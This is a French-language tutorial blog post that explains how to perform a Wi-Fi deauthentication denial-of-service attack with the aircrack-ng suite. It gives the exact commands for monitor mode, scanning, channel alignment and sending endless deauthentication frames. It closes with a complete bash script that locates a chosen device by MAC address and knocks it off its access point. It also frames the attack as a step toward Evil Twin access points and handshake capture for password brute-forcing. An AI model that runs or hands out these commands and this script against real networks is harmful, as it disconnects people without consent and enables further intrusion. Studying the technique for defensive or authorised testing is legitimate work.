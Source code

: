 ```yaml
---
weight: 4
title: "Attaque de désauthentification"
date: 2021-02-01T00:00:00+00:00
draft: false
author: "Nyxott"
description: "Effectuer une attaque de désauthentification Wi-Fi"
resources:
- name: "featured-image"
  src: "featured-image.png"

tags: ["Wi-Fi"]
categories: ["Wi-Fi"]

lightgallery: true
---
```


Cet article explique comment effectuer une attaque de désauthentification Wi-Fi.

<!--more-->

## Introduction

Une attaque de désauthentification Wi-Fi est une forme de déni de service ciblant la communication entre un client et un point d'accès Wi-Fi.

Cette attaque consiste à ce qu'un attaquant envoie des demandes de désauthentification à un accès Wi-Fi en se faisant passer pour un de ces clients. Cela a pour effet de déconnecter le client en question du point d'accès Wi-Fi.

Elle est, la plupart du temps, utilisé conjointement avec d'autres attaques.

Ainsi, un attaquant peut mettre en place un point d'accès Wi-Fi malveillant dans le cadre d'une attaque `Evil Twin`. Dans ce cas, l'attaquant pourra utiliser une attaque de désauthentification afin de déconnecter le client de son point d'accès Wi-Fi légitime pour le reconnecter sur le point d'accès malveillant.

Dans un autre contexte, un attaquant tentant de découvrir le mot de passe d'un point d'accès Wi-Fi peut utiliser cette méthode afin de déconnecter un client et récupérer le 4-Way Handshake pour ensuite effectuer une attaque brute-force.

Enfin, cette attaque de désauthentification peut tout simplement permettre de connaitre le SSID d'un point d'accès Wi-Fi caché.

## Installation des outils

On installe les outils nécessaires :
```shell
sudo apt install aircrack-ng
```

## Attaque

### Mode moniteur

Tout d'abord, il faut passer la carte Wi-Fi en mode moniteur afin de pouvoir écouter le trafic Wi-Fi environnant :
```shell
sudo airmon-ng start <INTERFACE>
```

{{< admonition >}}
Il est possible de trouver l'interface Wi-Fi via la commande suivante :
```shell
sudo iwconfig
```
{{< /admonition >}}

### Capture du trafic

Une fois la carte activée en mode moniteur, il est possible d'écouter le trafic Wi-Fi environnant grâce à la commande suivante :
```shell
sudo airodump-ng <INTERFACE>mon
```

Cette commande permet de récupérer énormément d'informations telles que, notamment :
* `BSSID` : L'adresse MAC du point d'accès ;
* `PWR` : La puissance du signal reçue. Plus le nombre est proche de 100, plus le signal est fort ; 
* `Data` : Le nombre de paquets de données capturés. Plus le nombre est élevé plus il y a d'activité ;
* `CH` : Le canal sur lequel la communication est effectuée ;
* `ENC` : L'algorithme de chiffrement utilisé ;
* `ESSID` : Le nom du point d'accès ;

De plus, elle permet également de récupérer l'adresse MAC des clients (STATION) connectés à chaque point d'accès détecté.

{{< admonition tip >}}
A tout moment, il est possible de couper l'écoute via un `ctrl + c`.
{{< /admonition >}}

### Alignement du canal

Une fois le point d'accès cible repéré, il est indispensable d'aligner la carte Wi-Fi sur le même canal que celui-ci afin de pouvoir correctement communiquer.

Cela est possible via la commande suivante :
```shell
sudo airodump-ng -d <BSSID> -c <CH> wlp2s0mon
```

{{< admonition tip >}}
Il est possible d'effectuer immédiatement un `ctrl + c` puisque l'aligmenent sur le bon canal est instantané.
{{< /admonition >}}

### Désauthentification

Une fois toutes ces étapes effectuées, il est désormais possible d'exécuter l'attaque via la commande suivante :
```shell
sudo aireplay-ng -0 0 -a <BSSID> -c <STATION> <INTERFACE>mon
```

{{< admonition >}}
Le `0` (à ne pas confondre avec le `-0`) permet d'envoyer des trames de désauthentification indéfiniment.
Il est possible de modifier ce nombre par `10`, par exemple, si l'on souhaite envoyer uniquement dix trames de désauthentification.
{{< /admonition >}}

{{< admonition tip >}}
Si l'option `-c <STATION>` n'est pas précisée, l'ensemble des clients connecté au point d'accès seront désauthentifiés.
{{< /admonition >}}

{{< admonition tip >}}
Lorsque des trames de désauthentification sont envoyées indéfiniment, il est possible d'effectuer un `ctrl + c` pour y mettre fin.
{{< /admonition >}}

### Mode station

Une fois l'attaque effectué, il est possible de désactiver le mode moniteur de la carte Wi-Fi via la commande suivante :
```shell
sudo airmon-ng stop <INTERFACE>mon
```

## Attaque automatisée

Répéter toutes ces commandes peut être contraignant notamment si l'on connaît déjà l'adresse MAC de la cible.

Partant de ce constat, la création d'un script automatisant cette attaque peut s'avérer utile.

```bash
#!/bin/bash

TARGET="<TARGET_MAC_ADDRESS>"

echo -e "\e[97mActivating monitor mode...\e[0m"
sudo airmon-ng start wlp2s0 > /dev/null 2>&1
echo -e "\e[1;92mOK\e[0m\n"

echo -e "\e[97mCleanning old file...\e[0m"
sudo rm airodump-01.csv > /dev/null 2>&1
echo -e "\e[1;92mOK\e[0m\n"

echo -e "\e[97mScanning access points...\e[0m"
sudo airodump-ng -w airodump --output-format csv wlp2s0mon > /dev/null 2>&1 &
sleep 20
sudo killall -15 airodump-ng > /dev/null 2>&1
echo -e "\e[1;92mOK\e[0m\n"

echo -e "\e[97mSearching target...\e[0m"
AP_TARGET=`grep $TARGET airodump-01.csv | cut -d "," -f 6 | xargs` > /dev/null 2>&1

if [ $AP_TARGET ]; then
	echo -e "\e[1;92mOK\e[0m\n"

	echo -e "\e[97mSearching additional information...\e[0m"
	TEMP=`grep $AP_TARGET airodump-01.csv | head -n 1`
	CHANNEL_TARGET=`echo $TEMP | cut -d "," -f 4 | xargs` > /dev/null 2>&1
	NAME_AP_TARGET=`echo $TEMP | cut -d "," -f 14 | xargs` > /dev/null 2>&1
	sudo airodump-ng -d $AP_TARGET -c $CHANNEL_TARGET wlp2s0mon > /dev/null 2>&1 &
	sleep 1
	sudo killall -15 airodump-ng > /dev/null 2>&1
	echo -e "\e[1;92mOK\e[0m\n"

	echo -e "\e[1;97m$TARGET\e[0m\e[97m detected on \e[0m\e[1;97m$NAME_AP_TARGET\e[0m\e[97m (\e[0m\e[1;97m$AP_TARGET\e[0m\e[97m)\e[0m\n"
	
	if [ "$1" = "attack" ]; then
		echo -e "\e[97mStarting attack...\e[0m"
		sudo aireplay-ng -0 0 -a $AP_TARGET -c $TARGET wlp2s0mon
		echo -e "\e[1;92mOK\e[0m\n"
	fi
else
	echo -e "\e[1;91mNO\e[0m\n"
fi

echo -e "\e[97mDeactivating monitor mode...\e[0m"
sudo airmon-ng stop wlp2s0mon > /dev/null 2>&1
echo -e "\e[1;92mOK\e[0m"

```

Il suffit d'indiquer l'adresse MAC de la cible et le script se chargera automatiquement de détecter si la cible est connectée à un point d'accès Wi-Fi. Si tel est le cas, le script enverra indéfiniment des trames de désauthentification au point d'accès Wi-Fi en question afin de désauthentifier la cible.

{{< admonition tip >}}
`./<SCRIPT_NAME>` : Permet de savoir si la cible est connectée ou non. Si elle l'est, le script indiquera sur quel point d'accès elle se trouve sans effectuer d'attaque.

`./<SCRIPT_NAME> attack` : Permet de savoir si la cible est connectée ou non. Si elle l'est, le script indiquera sur quel point d'accès elle se trouve et effectuera l'attaque.
{{< /admonition >}}

